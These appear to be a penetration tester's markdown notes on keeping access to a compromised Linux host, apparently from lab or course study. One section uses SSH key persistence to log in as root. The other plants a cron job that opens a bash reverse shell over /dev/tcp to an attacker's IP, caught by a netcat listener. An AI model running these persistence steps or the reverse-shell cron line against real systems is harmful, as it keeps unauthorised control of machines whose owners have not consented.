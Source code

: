 # Via SSH keys:

- post/linux/manage/sshkey_persistence (needed elevated privs, check rootkit for privesc)
	- set CREATESSHFOLDER true
	- check loot, copy the key and save it as a new file and do these -
	- chmod 0400 ssh_key
	- ssh -i ssh_key root@192.182.80.3
- id_rsa : pvt key
- authorized_keys: list of pub keys authorized to access server.
- login with pvt key: ssh -i <pvt_key> <user>@<target_ip>
	
# Using Cron Jobs:

- ps -eaf | grep cron : see if cron service is running
- create netcat listener on attacker machine.
- create cronjob on target machine. 
- echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'" > cron
- crontab -i cron : This adds the cron file to the cron tab
- crontan -l : This lists the cron jobs in the cron tab
- Another Way: serve http server using python

￼![persistence](./images/lin-persist-01.png)

- cheatsheet: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
